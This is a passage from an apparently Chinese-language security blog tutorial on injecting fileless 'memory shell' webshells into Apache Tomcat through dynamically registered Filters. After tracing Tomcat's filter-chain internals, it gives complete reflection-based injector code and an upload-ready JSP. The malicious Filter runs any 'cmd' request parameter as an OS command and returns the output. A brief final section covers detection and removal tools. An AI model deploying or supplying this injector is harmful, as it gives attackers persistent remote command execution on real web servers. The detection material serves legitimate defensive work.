- filterConfigs：存放filterConfig的数组，在 FilterConfig 中主要存放 FilterDef 和 Filter对象等信息
    - 

- filterMaps：存放FilterMap的数组，在 FilterMap 中主要存放了 FilterName 和 对应的URLPattern
    - 
- FilterChain：过滤器链，该对象上的 doFilter 方法能依次调用链上的 Filter
    - 


- 当我们写好filter时候，Tomcat是怎么调用的呢？

    - 根据请求的URL从**FilterMaps**(从 context 中获取的 FilterMaps)中找出与之URL对应的**Filter Def**
    - 根据Filter Def去**FilterConfigs**中寻找对应名称的FilterConfig
    - **找到对应的FilterConfig 之后添加到FilterChain中**，并且返回FilterChain
    - filterChain中调用internalDoFilter遍历获取chain中的FilterConfig，然后从FilterConfig中获取Filter，然后调用Filter的 doFilter方法
    - 

- 创建两个Filte

    ```java
    package com.sec.servlet;
    
    import javax.servlet.*;
    import java.io.IOException;
    
    public class FilterDemo2 implements Filter {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
            System.out.println("第二个Filter 初始化创建");
        }
        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            System.out.println("第二个Filter执行过滤操作");
            filterChain.doFilter(servletRequest,servletResponse);
        }
        @Override
        public void destroy() {
        }
    }
    ```

    ```xml
      <filter>
        <filter-name>filterDemo</filter-name>
        <filter-class>com.sec.servlet.FilterDemo</filter-class>
      </filter>
    
      <filter-mapping>
        <filter-name>filterDemo</filter-name>
        <url-pattern>/*</url-pattern>
      </filter-mapping>
    
      <filter>
        <filter-name>filterDemo2</filter-name>
        <filter-class>com.sec.servlet.FilterDemo2</filter-class>
      </filter>
    
      <filter-mapping>
        <filter-name>filterDemo2</filter-name>
        <url-pattern>/*</url-pattern>
      </filter-mapping>
    ```

    访问主页输出

    ```
    第二个Filter 初始化创建
    第一个Filter 初始化创建
    [2022-04-26 07:44:51,388] 工件 simpleweb:war: 工件已成功部署
    [2022-04-26 07:44:51,388] 工件 simpleweb:war: 部署已花费 853 毫秒
    第一个Filter执行过滤操作
    第二个Filter执行过滤操作
    第一个Filter执行过滤操作
    第二个Filter执行过滤操作
    ```

    Filter的配置在web.xml中，Tomcat会首先通过ContextConfig创建WebXML的实例来解析web.xml

    先来看在StandardWrapperValue.java文件中中利用createFilterChain来创建filterChain

    ```java
    // Create the filter chain for this request
    ApplicationFilterChain filterChain =
    ApplicationFilterFactory.createFilterChain(request, wrapper, servlet);
    ```

    跟进createFilterChain方法

    ```java
    // Acquire the filter mappings for this Context
    StandardContext context = (StandardContext) wrapper.getParent();
    FilterMap filterMaps[] = context.findFilterMaps();
    ```

    通过getParent()获取当前的Context，也就是当前的应用，然后从Context中获取filterMaps

    

    然后开始遍历FilterMaps

    ```java
    // Add the relevant path-mapped filters to this filter chain
    for (int i = 0; i < filterMaps.length; i++) {
        if (!matchDispatcher(filterMaps[i] ,dispatcher)) {
        	continue;
        }
        if (!matchFiltersURL(filterMaps[i], requestPath))
        	continue;
        
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig)
        		context.findFilterConfig(filterMaps[i].getFilterName());
        
        if (filterConfig == null) {
        	// FIXME - log configuration problem
        	continue;
        }
        filterChain.addFilter(filterConfig);
    }
    ```

    如果当前请求的url与FilterMap中的urlPattern匹配，就会调用 findFilterConfig 方法在 filterConfigs 中**寻找对应 filterName名称的 FilterConfig**，然后如果不为null，就进入if循环。**将 filterConfig 添加到 filterChain中**（也就是只要匹配对了url，那么全部加入到chain中,这里是放到filters数组中），跟进addFilter方法。

    ```java
        void addFilter(ApplicationFilterConfig filterConfig) {
    
            //遍历filters数组，去掉重复的过滤器设置
            // Prevent the same filter being added multiple times
            for(ApplicationFilterConfig filter:filters)
                if(filter==filterConfig)
                    return;
    
            if (n == filters.length) {
                ApplicationFilterConfig[] newFilters =
                    new ApplicationFilterConfig[n + INCREMENT];
                System.arraycopy(filters, 0, newFilters, 0, n);
                filters = newFilters;
            }
            //将filterConfig添加到filters中
            filters[n++] = filterConfig;
    
        }
    
    ```

    重复遍历直至将所有的filter全部装载到filterchain中

    重新回到 StandardContextValue 中，调用 filterChain 的 doFilter 方法 ，就会依次调用 Filter 链上的 doFilter方法

    ```java
    try {
    	SystemLogHandler.startCapture();
        if (request.isAsyncDispatching()) {
        	request.getAsyncContextInternal().doInternalDispatch();
        } else {
        	filterChain.doFilter(request.getRequest(),
        	response.getResponse());
    	}
    }
    ```

    跟进doFilter方法，在 doFilter 方法中会调用 internalDoFilter方法

    ```java
    public void doFilter(ServletRequest request, ServletResponse response)
        throws IOException, ServletException {
    
        if( Globals.IS_SECURITY_ENABLED ) {
        } else {
            internalDoFilter(request,response);
        }
    }
    
    ```

    跟进internalDoFilter方法

    ```java
    
    // Call the next filter if there is one
    if (pos < n) {
        ApplicationFilterConfig filterConfig = filters[pos++];
        try {
            
            
            Filter filter = filterConfig.getFilter();
    
            if (request.isAsyncSupported() && "false".equalsIgnoreCase(
                    filterConfig.getFilterDef().getAsyncSupported())) {
                request.setAttribute(Globals.ASYNC_SUPPORTED_ATTR, Boolean.FALSE);
            }
            if( Globals.IS_SECURITY_ENABLED ) {
                final ServletRequest req = request;
                final ServletResponse res = response;
                Principal principal =
                    ((HttpServletRequest) req).getUserPrincipal();
    
                Object[] args = new Object[]{req, res, this};
                SecurityUtil.doAsPrivilege ("doFilter", filter, classType, args, principal);
            } else {
                           
                filter.doFilter(request, response, this);
    
            }
    
    }
    ```

    发现会依次从 filters 中取出 filterConfig，然后会调用 getFilter() 将 filter 从filterConfig 中取出，调用 filter 的 doFilter方法。从而调用我们自定义过滤器中的 doFilter 方法，从而触发了相应的代码。

    **总结：**

    1. 根据请求的 URL 从 FilterMaps 中找出与之 URL 对应的 Filter 名称
    2. 根据 Filter 名称去 FilterConfigs 中寻找对应名称的 FilterConfig
    3. 找到对应的 FilterConfig 之后添加到 FilterChain中，并且返回 FilterChain
    4. filterChain 中调用 internalDoFilter 遍历获取 chain 中的 FilterConfig ，然后从 FilterConfig 中获取 Filter，然后调用 Filter 的 doFilter 方法

- 根据上面的总结可以发现最开始是从 context 中获取的 FilterMaps

- 将符合条件的依次按照顺序进行调用，那么我们可以将自己创建的一个 FilterMap 然后将其放在 FilterMaps 的最前面，这样当 urlpattern 匹配的时候就回去找到对应 FilterName 的 FilterConfig ，然后添加到 FilterChain 中，最终触发我们的内存shell。

### **动态添加Filter**

可以发现程序在创建过滤器链的时候，如果我们能够修改filterConfigs，filterDefs，filterMaps这三个变量，将我们恶意构造的FilterName以及对应的urlpattern存放到FilterMaps，就可以组装到filterchain里，当访问符合urlpattern的时候，就能达到利用Filter执行内存注入的操作。

- 根据Tomcat注册Filter的操作，可以大概得到如何动态添加一个Filter

    - 获取standardContext
    - 创建一个Filter
    - 使用filterDef封装Filter对象，将filterDef添加到filterDefs和FilterConfig
    - 获取filterConfigs变量，并向其中添加filterConfig对象
    - 创建filterMap，将URL和filter进行绑定，添加到filterMaps中

- 通过分析得到动态添加Filter只需5个步骤，下面笔者将根据Tomcat注册Filter的操作，通过反射操作实现动态添加Filter。

- **1. 获取standardContext**

    - 获取standardContext多种多样，StandardContext主要负责管理session，Cookie，Servlet的加载和卸载。因此在Tomcat中的很多地方都有保存。

    - **在这之前先来说一下****ServletContext(只是一个接口)跟StandardContext的关系：**

        - Tomcat中的对应的ServletContext实现是ApplicationContext。
        - 在Web应用中获取的ServletContext实际上是ApplicationContextFacade对象，对ApplicationContext进行了封装，而ApplicationContext实例中又包含了StandardContext实例，以此来获取操作Tomcat容器内部的一些信息，例如Servlet的注册等。通过下面的图可以很清晰的看到两者之间的关系
        - 
    
    - 如果我们能够直接获取request的时候，可以使用以下方法直接获取context。其实也是层层递归取出context字段的值。
    
        ```java
        ServletContext servletContext = request.getSession().getServletContext();
        Field appContextField = servletContext.getClass().getDeclaredField("context");
        appContextField.setAccessible(true);
        ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
        //上面几行的目的是为了获取(ApplicationContext)context
        
        
        Field standardContextField = applicationContext.getClass().getDeclaredField("context");
        standardContextField.setAccessible(true);
        StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
        ```
    
        获取到standardContext就可以很方便的将其他对象添加在Tomcat Context中。
    
        [如果没有request对象的话可以从当前线程中获取StandardContext](https://zhuanlan.zhihu.com/p/114625962)
    
        当然也可以从MBean中获取，可以参考下面文章
    
        《[TOMCAT FILTER 之动态注入](https://scriptboy.cn/p/tomcat-filter-inject/#)》
    
        《[通过Mbean获取context](https://paper.seebug.org/1441/#2mbeancontext)》
    
        
    
    **2. 创建Filter**
    
    直接在代码中实现Filter实例，需要重写三个重要方法，init、doFilter、destory，如下面代码所示：
    
    ```java
    Filter filter = new Filter() {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }
        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest req = (HttpServletRequest) servletRequest;
            if (req.getParameter("cmd") != null){
                InputStream in = Runtime.getRuntime().exec(req.getParameter("cmd")).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                servletResponse.getWriter().write(output);
                return;
            }
            filterChain.doFilter(servletRequest,servletResponse);
        }
        @Override
        public void destroy() {
        }
    };
    ```
    
    在doFilter方法中实现命令执行回显功能。

**3. 创建filterDef封装Filter对象，并添加到FilterDefs中**

为了之后将内存马融合进反序列化payload中，这里特意使用反射获取FilterDef对象。如果使用的是jsp或者是非反序列化的利用，那么可以直接使用new创建对象。

```java
Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
Constructor declaredConstructors = FilterDef.getDeclaredConstructor();
FilterDef o = (org.apache.tomcat.util.descriptor.web.FilterDef)declaredConstructors.newInstance();
o.setFilter(filter);
o.setFilterName(FilterName);
o.setFilterClass(filter.getClass().getName());
standardContext.addFilterDef(o);
```

setFilter方法将自己创建的Filter绑定在FilterDef中，setFilterName设置的是Filter的名称，最后把FilterDef添加在standardContext的FilterDefs变量中。

**4. 创建filterMap绑定URL，并添加到FilterMaps中**

通过反射创建FilterMap实例，该部分代码主要是注册filter的生效路由，并将FilterMap对象添加在standardContext中FilterMaps变量的第一个。

```java
Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
Constructor<?> declaredConstructor = FilterMap.getDeclaredConstructor();
org.apache.tomcat.util.descriptor.web.FilterMap o1 = (org.apache.tomcat.util.descriptor.web.FilterMap)declaredConstructor.newInstance();

o1.addURLPattern("/*");
o1.setFilterName(FilterName);
o1.setDispatcher(DispatcherType.REQUEST.name());//只支持 Tomcat 7.x 以上
////添加我们的filterMap到所有filter最前面
standardContext.addFilterMapBefore(o1);
```

**5. 利用filterdef创建 ApplicationFilterConfig并添加到filterConfigs 中**

之后通过反射生成ApplicationFilterConfig对象，并将其放入filterConfigs hashMap中。

```java
Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
Constructor<?> declaredConstructor1 = ApplicationFilterConfig.getDeclaredConstructor(Context.class,FilterDef.class);
declaredConstructor1.setAccessible(true);
ApplicationFilterConfig filterConfig = (org.apache.catalina.core.ApplicationFilterConfig) declaredConstructor1.newInstance(standardContext,o);

//FilterConfig并添加到filterConfigs 中
Configs = StandardContext.class.getDeclaredField("filterConfigs");
Configs.setAccessible(true);
filterConfigs = (Map) Configs.get(standardContext);
filterConfigs.put(FilterName,filterConfig);
```

完整代码

```java
Field Configs = null;
Map filterConfigs;
try {
    //Step 1
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    String FilterName = "cmd_Filter";
    Configs = StandardContext.class.getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    filterConfigs = (Map) Configs.get(standardContext);
    //Step 2
    if (filterConfigs.get(FilterName) == null){
        Filter filter = new Filter() {

            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){

                    InputStream in = Runtime.getRuntime().exec(req.getParameter("cmd")).getInputStream();
                    //
                    Scanner s = new Scanner(in).useDelimiter("\\A");
                    String output = s.hasNext() ? s.next() : "";
                    servletResponse.getWriter().write(output);

                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }
            @Override
            public void destroy() {
            }
        };
        //Step 3
        Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
        Constructor declaredConstructors = FilterDef.getDeclaredConstructor();
        FilterDef o = (org.apache.tomcat.util.descriptor.web.FilterDef)declaredConstructors.newInstance();
        o.setFilter(filter);
        o.setFilterName(FilterName);
        o.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(o);
        //Step 4
        Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
        Constructor<?> declaredConstructor = FilterMap.getDeclaredConstructor();
        org.apache.tomcat.util.descriptor.web.FilterMap o1 = (org.apache.tomcat.util.descriptor.web.FilterMap)declaredConstructor.newInstance();

        o1.addURLPattern("/*");
        o1.setFilterName(FilterName);
        o1.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(o1);

        //Step 5
        Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
        Constructor<?> declaredConstructor1 = ApplicationFilterConfig.getDeclaredConstructor(Context.class,FilterDef.class);
        declaredConstructor1.setAccessible(true);
        ApplicationFilterConfig filterConfig = (org.apache.catalina.core.ApplicationFilterConfig) declaredConstructor1.newInstance(standardContext,o);
        filterConfigs.put(FilterName,filterConfig);
    }
} catch (Exception e) {
    e.printStackTrace();
}
```

filterDemo.jsp

```jsp
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
  final String name = "FilterAgent";
  ServletContext servletContext = request.getSession().getServletContext();

  Field appctx = servletContext.getClass().getDeclaredField("context");
  appctx.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

  Field stdctx = applicationContext.getClass().getDeclaredField("context");
  stdctx.setAccessible(true);
  StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

  Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
  Configs.setAccessible(true);
  Map filterConfigs = (Map) Configs.get(standardContext);

  if (filterConfigs.get(name) == null){
    Filter filter = new Filter() {
      @Override
      public void init(FilterConfig filterConfig) throws ServletException {

      }

      @Override
      public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) servletRequest;
        if (req.getParameter("cmd") != null){
          byte[] bytes = new byte[1024];
          Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
          int len = process.getInputStream().read(bytes);
          servletResponse.getWriter().write(new String(bytes,0,len));
          process.destroy();
          return;
        }
        filterChain.doFilter(servletRequest,servletResponse);
      }

      @Override
      public void destroy() {

      }

    };


    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName(name);
    filterDef.setFilterClass(filter.getClass().getName());
    /**
     * 将filterDef添加到filterDefs中
     */
    standardContext.addFilterDef(filterDef);

    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/testshell");
    filterMap.setFilterName(name);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());

    standardContext.addFilterMapBefore(filterMap);

    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

    filterConfigs.put(name,filterConfig);
    out.print("Inject Success !");
  }
%>

```

上传jsp文件后执行，访问对应url。



tomcat 7 与 tomcat 8 在 FilterDef 和 FilterMap 这两个类所属的包名不一样

```jsp
<!-- tomcat 8/9 -->

<!-- page import = "org.apache.tomcat.util.descriptor.web.FilterMap"

<!-- page import = "org.apache.tomcat.util.descriptor.web.FilterDef" -->


<!-- tomcat 7 -->

<%@ page import = "org.apache.catalina.deploy.FilterMap" %>

<%@ page import = "org.apache.catalina.deploy.FilterDef" %>
```


## 内存马排查

如果我们通过检测工具或者其他手段发现了一些内存webshell的痕迹，需要有一个排查的思路来进行跟踪分析，也是根据各类型的原理，列出一个排查思路

```java
如果是jsp注入，日志中排查可疑jsp的访问请求。

如果是代码执行漏洞，排查中间件的error.log，查看是否有可疑的报错，判断注入时间和方法

根据业务使用的组件排查是否可能存在java代码执行漏洞以及是否存在过webshell，排查框架漏洞，反序列化漏洞。

如果是servlet或者spring的controller类型，根据上报的webshell的url查找日志（日志可能被关闭，不一定有），根据url最早访问时间确定被注入时间。

如果是filter或者listener类型，可能会有较多的404但是带有参数的请求，或者大量请求不同url但带有相同的参数，或者页面并不存在但返回200
```

《[tomcat内存马的多种查杀方式](https://syst1m.com/post/memory-webshell/#防守视角-tomcat内存马的多种查杀方式)》

### java-memshell-scanner

工具链接：https://github.com/c0ny1/java-memshell-scanner

c0ny1 师傅写的检测内存马的工具，通过jsp脚本扫描并查杀各类中间件内存马，比Java agent要温和一些。能够检测并且进行删除，是一个非常方便的工具

但是需要上传jsp文件，然后访问。



可以看到，检测到了我们上传的内存马，并且可以dump出class文件查看是不是内存马，然后可以kill掉这个内存马。

### arthas

arthas是Alibaba开源的Java诊断工具，只能检测不能查杀

